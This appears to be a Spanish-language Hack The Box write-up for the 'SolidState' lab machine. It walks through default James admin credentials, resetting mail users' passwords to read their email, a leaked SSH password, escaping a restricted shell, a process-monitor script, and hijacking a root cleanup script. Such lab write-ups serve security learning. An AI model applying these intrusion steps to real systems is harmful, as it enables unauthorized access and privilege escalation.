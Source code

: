 # SolidState-HTB


## NMAP 

![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/2af3b258-b5fa-4f3d-8c32-34b554d1d35e)

Enumere el servidor apache del puerto 80 y no se encontro nada pero en el 4555.

![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/947e5aa4-82b0-46a3-b31e-fc09db614486)

Buscamos versiones vulnerables. Y encontramos "JAMES Remote Administration Tool 2.3.2" buscamos credenciales por defecto entontramos

```
root:root
searchsploit Apache James Server 2.3.2

```

![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/31772226-8b3b-430b-b37c-bf733edb43be)




## RCE

Podemos listar los usuarios y ¿cambiar los passwords?

![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/4b6c24c5-5a30-4199-b62f-57073072f441)

```
user: james
user: thomas
user: john
user: mindy
user: mailadmin

```

Vamos a cambiar los password de todos los usuarios. Para checar sus correos.Aqui existe un camino alternativo existe un exploit que permite escribiendo un usuario una vez que alguien inicia sesion ejecuta comandos.

![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/71587bc2-b543-4c7f-baee-a390f30f1967)


### POP3 

De todas maneras  se necesita ver los correos porque se encuentra una contraseña para conectarse por SSH...Siempre que tengas el puerto 110(POP3) y usuarios intenta conectarte y ver los correos.


![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/0419a569-ca5f-4588-88ee-c84183459c97)


```
ssh mindy@10.129.52.175
P@55W0rd1!2@

```

## Privilege Escalation

Nos conectamos por ssh ya que encontramos credenciales. El exploit se activa regresando una shell normal mientras que en donde nos conectamos nos regresa una rbash ( restricted bash)

```
ssh mindy@10.129.52.175 bash
### Para escapar de esa rbash

script /dev/null -c bash
CTRL + z

stty -echo raw;fg
              reset xterm
export TERM=xterm
export SHELL=/bin/bash
```

![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/793451bc-8c13-4006-9640-aacc0b6752ef)

![image](https://github.com/gecr07/SolidState-HTB/assets/63270579/288ec71e-3e54-4b88-bde3-cd18c3191469)

Ahora pase el pspy y no vi nada resulta que hay un script que limpia /tmp moraleja pon el linpeas y el pspy en otra carpeta y ten mas opciones como procmon.sh de s4vitar.

procmon.sh

```
#!/bin/bash
#echo "Iniciando procmon..."
#ps -eo command

function ctrl_c(){

        echo -e "\n\n[!] Saliendo...\n"
        tput cnorm;exit 1
}

trap ctrl_c INT

tput civis

old_process="$(ps -eo command)"

while true; do
        new_process="$(ps -eo command)"
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker"
        old_process=$new_process
done


```

Entonces ese script se puede modificiar para que haga lo que queramos.















































































































